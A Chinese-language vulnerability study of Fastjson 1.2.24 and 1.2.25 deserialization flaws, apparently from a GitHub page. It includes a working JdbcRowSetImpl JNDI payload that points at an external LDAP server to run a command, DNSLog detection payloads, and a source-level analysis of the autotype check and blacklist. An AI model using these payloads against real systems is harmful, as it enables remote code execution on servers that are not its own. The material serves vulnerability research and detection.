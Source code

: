 前置基础
---

相关漏洞
---

### <= v1.2.24

pom.xml

```xml
<!-- https://mvnrepository.com/artifact/com.alibaba/fastjson -->
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
```



PayloadRunner.java

```java
public class PayloadRunner {
    public static void main(String[] args) {
        String payload_v1_2_24 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://10.10.10.1:1389/Basic/Command/calc\",\"autoCommit\":true}";
        JSON.parseObject(payload_v1_2_24);
    }
}
```



*payloads* can be *generated* from within the `JNDIExploit.v1.2 `

- https://github.com/feihong-cs/

![image](https://user-images.githubusercontent.com/55024146/163208057-e33cde47-01a6-4f8a-b2d5-260dc523dbd9.png)


### v1.2.25

pom.xml

```xml
<!-- https://mvnrepository.com/artifact/com.alibaba/fastjson -->
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.25</version>
</dependency>
```



```java
String payload_v1_2_24 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://10.10.10.1:1389/Basic/Command/calc\",\"autoCommit\":true}";
```



**弹计算器-失败**


![image](https://user-images.githubusercontent.com/55024146/163208138-e5c67f9b-7669-4102-9b8d-195c35ccbe51.png)

原因

- 默认关闭了autotype支持，并且加入了checkAutotype

![image](https://user-images.githubusercontent.com/55024146/163208367-c0e3820b-aaf9-48b7-813e-5bfc1ee6d3c0.png)

新增黑名单

![image](https://user-images.githubusercontent.com/55024146/163208421-b1bccff5-0939-4636-8e46-31013f7ab122.png)


**DNSLog-成功**


```java
String payload_dnslog = "{\"@type\":\"java.net.Inet4Address\",\"val\":\"t6dwta.dnslog.cn\"}";
```

- 为什么会成功？

  - 这或许可以回答为什么很多渗透测试项目中遇到fastjson并成功dns回显，但是却利用失败的部分情况
    - autotype = false

- 如何利用dns精确检测呢?

  - ```java
    [{"@type":"java.net.CookiePolicy"},{"@type":"java.net.Inet4Address","val":"ydk3cz.dnslog.cn"}]
    ```

    因为目标环境没开启 autotype -> 前面部分会报错 -> 后面部分不会被执行 -> 失败

  - ```java
    # 开启AutoTypeSupport
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    ```

    此时已开启 autotype -> dnslog成功回显

![image](https://user-images.githubusercontent.com/55024146/163208304-18244148-c2f5-4064-9830-0e9649d307d1.png)


> 分析 `为什么没有开启autotype，仍然可以进行dns解析？`


跟踪到 `com.alibaba.fastjson.parser.ParserConfig#checkAutoType`时，有这样一段代码
```java
try {
    return InetAddress.getByName(strVal);
} catch (UnknownHostException var10) {
    throw new JSONException("deserialize inet adress error", var10);
}
```

![image](https://user-images.githubusercontent.com/55024146/163209617-febfa0d4-fd10-4f9d-8bbd-984a204a7117.png)

- 取到了 java.net.Inet4Address

而在跟进到 `com.alibaba.fastjson.serializer.MiscCodec#deserialze`，经过一些判断后，调用了 `InetAddress.getByName()` 进行DNS解析。

![image](https://user-images.githubusercontent.com/55024146/163210134-09eccf77-8f35-464a-a1a9-99473a1338e8.png)


调用栈
```
getByName:1076, InetAddress (java.net)
deserialze:301, MiscCodec (com.alibaba.fastjson.serializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:128, JSON (com.alibaba.fastjson)
parseObject:201, JSON (com.alibaba.fastjson)
main:26, PayloadRunner (Deserialization.Fastjson)
```



利用研究
---

